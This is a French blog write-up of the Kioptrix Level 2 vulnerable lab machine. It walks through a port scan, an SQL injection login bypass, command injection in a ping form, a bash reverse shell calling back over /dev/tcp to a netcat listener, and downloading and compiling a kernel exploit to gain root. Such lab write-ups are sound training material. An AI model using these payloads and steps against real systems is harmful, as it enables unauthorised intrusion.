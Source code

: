 ```yaml
---
layout: post
title: Writeup Kiopitrix 1.1 , Lvl 2
---
```


# Kiopitrix LVL 2 

![pwn]({{ site.baseurl }}/images/kiopitrix-1-1/pwn.jpeg){:class="img-responsive"}

Comme toujours, la première étape d'une analyse de vulnérabilités consiste à faire un scan des ports de la machine que l'on souhaite attaquer :

```
Nmap scan report for 192.168.122.184
Host is up (0.018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
```

Ici on voit que plusieurs ports sont ouverts, débutons par une analyse rapide de ceux qui sont les plus intéressants.

Sur le port 80 tourne une application web qui demande un login et un mot de passe :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img1.png){:class="img-responsive"}

On sait grâce au scan que tourne une base de données sur le serveur, tentons alors une injection SQL en plaçant `'='` dans chacun des champs :

> Voici un lien qui m'a servis de référence : http://www.bases-hacking.org/sql-injection.html

![]({{ site.baseurl }}/images/kiopitrix-1-1/img2.png){:class="img-responsive"}

Comme on le voit, une redirection immédiate a  lieu vers ce qui semble être une application permettant de faire un ping vers une IP.

Ping étant une commande bash, il doit forcément y avoir un moyen de passer des commandes la dedans :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img3.png){:class="img-responsive"}

Ici, on a réussi à injecter une commande en écrivant `;cat index.php` dans le formulaire.
Le **;** permet en bash d'exécuter une commande à la suite de l'autre sous la forme d'une séquence.

Vérifions sous quel utilisateur nous exécutons les commandes et quel est la version de l'OS du serveur :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img4.png){:class="img-responsive"}

Nous sommes donc ici identifié en tant qu'apache qui est l'utilisateur du serveur web du même nom. Pour rappel nous devons ici obtenir les droits root sur la machine pour valider l'exercice. 

On voit ici que la version du noyaux est assez ancienne, essayons de trouver une faille dans ce dernier :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img5.png){:class="img-responsive"}


Reste maintenant à trouver un moyen d'exécuter un shell interactif pour lancer l'exploit.
Pour se faire on va exploiter un [reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Notre choix va se porter ici sur un reverse shell bash qui ressemble à ceci :

```
bash -i >& /dev/tcp/IP_To_Connect/Port_To_Connect 0>&1
```
Du coté de notre machine on va simplement lancer **netcat** en mode interactif :

```
sudo nc -lvp 666
```
Sur l'application web, on lance le reverse shell :

```
; bash -i >& /dev/tcp/192.168.122.1/666  0>&1
```
Voici ce que l'on obtiens :

```
Listening on [0.0.0.0] (family 0, port 666)
Connection from [192.168.122.184] port 666 [tcp/*] accepted (family 2, sport 32813)
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ 
```
On a donc un shell exécuté avec l'user **apache**, utilisons notre exploit :

Sur notre machine on va utiliser un serveur web basique en python qui atteint les fichiers du répertoire courant (il est disponible par défaut):

```
wget https://www.exploit-db.com/download/9542.c
sudo python -m SimpleHTTPServer 80
```

Côté serveur on va faire récupérer et compiler l'exploit avant de l'exécuter:

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.122.1/9542.c
--22:42:29--  http://192.168.122.1/9542.c
           => `9542.c.1'
Connecting to 192.168.122.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,674 (2.6K) [text/plain]
    0K ..                                                    100%   42.50 MB/s
22:42:29 (42.50 MB/s) - `9542.c.1' saved [2674/2674]
bash-3.00$ gcc -o exp 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id 
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```

Bingo ! Nous sommes root sur la machine !

## Conclusion : 

Pour conclure, on peut dire que cette machine virtuelle nous met en situation réaliste de test d'intrusion. Les failles sont certes éxagerées de par l'ancienneté de l'OS et de ses applicatifs mais on prend en main un workflow de test d'intrusion réaliste. 

Il existe certainement d'autres failles sur cette machine virtuelle, si je les trouve j'en ferais part ici. 
